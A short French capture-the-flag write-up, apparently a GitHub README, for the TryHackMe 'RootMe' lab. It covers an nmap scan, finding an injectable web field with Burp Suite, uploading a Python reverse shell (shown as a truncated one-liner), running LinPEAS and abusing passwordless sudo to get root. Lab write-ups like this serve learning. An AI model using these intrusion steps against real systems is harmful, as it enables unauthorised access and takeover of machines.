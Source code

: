 # Write-Up : RootMe – TryHackMe

## 🎯 Objectif
Exploiter une faille web pour obtenir un shell, puis escalader les privilèges et rooter la machine.

---

## 🛠️ Outils utilisés
- Nmap
- Burp Suite
- Python reverse shell
- LinPEAS
- sudo misconfig

---

## 🧪 Étapes

### 🔍 1. Scan réseau
```bash
nmap -sC -sV -oN rootme_scan.txt 10.10.XX.XX
```
→ Port 80 avec site web simple, + port 22 ouvert.

---

### 🌐 2. Analyse Web
Fouille avec Burp Suite → injection dans un champ vulnérable.

Upload d’un **reverse shell Python** :

```bash
python3 -c 'import socket,os,pty;s=socket.socket(...); ...'
```

---

### 🔐 3. Escalade de privilèges
Lancement de LinPEAS pour audit des droits.

Découverte d’une commande sudo exécutable sans mot de passe.  
Utilisation de cette commande pour **obtenir root**.

---

## ✅ Résultat
Shell root + flag `/root/root.txt`

---

## 🧠 Ce que j’ai appris
- Injection web pour obtenir un shell
- Escalade sudo sans mot de passe
- Utilisation d’outils d’automatisation comme LinPEAS

